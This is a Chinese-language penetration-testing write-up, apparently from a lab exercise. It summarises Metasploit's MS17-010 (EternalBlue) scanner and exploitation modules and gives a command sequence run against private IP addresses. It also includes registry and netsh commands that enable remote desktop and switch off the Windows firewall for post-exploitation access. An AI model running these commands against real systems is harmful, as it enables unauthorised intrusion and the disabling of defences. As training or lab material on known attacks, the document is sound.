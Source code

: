 **ms_17_010 模块总结**

**漏洞检测方法：**

设置一下目标 ip 和线程即可，这里因为已经扫出存在漏洞的机器了，所以就没有进行漏洞检测。

```
use auxiliary/scanner/smb/smb_ms17_010
```

**漏洞利用常使用的是：**

这里的第一个和第三个模块需要目标开启命名管道，并且比较稳定。第二个模块只要存在漏洞即可，但是会有概率把目标打蓝屏，而且杀软拦截也会比较严格，如果有杀软就基本可以放弃这个模块了。

```
auxiliary/admin/smb/ms17_010_command
exploit/windows/smb/ms17_010_eternalblue
exploit/windows/smb/ms17_010_psexec
```

在打 ms17010 的时候，不妨使用`auxiliary/admin/smb/ms17_010_command`模块探测一下是否可以使用命名管道。

```
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.164.156 192.168.164.161
set command tasklist
show options
run
```

如果命令执行成功的话就可以优先考虑这两个模块进行利用

```
auxiliary/admin/smb/ms17_010_command
exploit/windows/smb/ms17_010_psexec
```

**WMI 获取域控服务器**

因为之前用了两个`ms_17_010`的模块都没有打成功，而 session 放在后台是后面才想到的打法，在当时模块没有打成功的情况下我决定另辟蹊径

首先我打开 3389 端口并关闭防火墙进到 win7 的远程桌面

**注册表开启 3389 端口**

```
REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjO6Pc6MIaVDr0W7UBWBOX2mCfePicq6r8DFGc3baszUdN8JUXtlKxEvA/640?wx_fmt=png)

**关闭防火墙**

```
#windows server 2003之前
netsh firewall set opmode disable 
#windows server 2003之后
netsh advfirewall set allprofiles state off
```
